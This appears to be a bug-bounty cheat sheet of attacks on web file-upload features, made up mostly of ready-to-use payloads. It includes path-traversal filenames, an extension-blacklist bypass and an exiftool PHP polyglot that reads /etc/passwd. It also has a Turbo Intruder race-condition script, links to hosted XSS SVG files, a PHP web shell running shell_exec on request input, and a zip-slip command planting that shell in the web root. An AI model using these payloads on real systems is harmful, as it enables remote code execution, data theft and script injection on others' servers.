 # Upload Files

## Directory Traversal
```http
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
Content-Disposition: form-data; name="avatar"; filename="..%2exploit.php"
```
## Content-Type
Content-Type to image/jpeg.

## Extension blacklist bypass

```http
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
```

## Metadata
```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" example.jpg -o polyglot.php
```
## Race condition

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```

## Test metadata
Upload xss_comment_exif_metadata_double_quote.png
```http
Content-Type:image/png - Content-Type: text/html
```
##### Reference: https://hackerone.com/reports/964550

## If is possible to change src=
Add urls:
* https://angeljuanma.github.io/bug-bounty/evil.svg
* https://angeljuanma.github.io/bug-bounty/xss.svg
* https://angeljuanma.github.io/bug-bounty/xss.html

## cannot be displayed

The image "" cannot be displayed because it contains errors.

use:

```
curl -s -X GET "https://domain.com/uploads/aJEa412rsdfgF" | html2text | mdcat
```

## Zip

cmd.php

```php
<?php
 echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Bypass cmd.php.jpeg (- png,etc)

zip -r cmd.zip ../../../../../../../../var/www/html/cmd.php
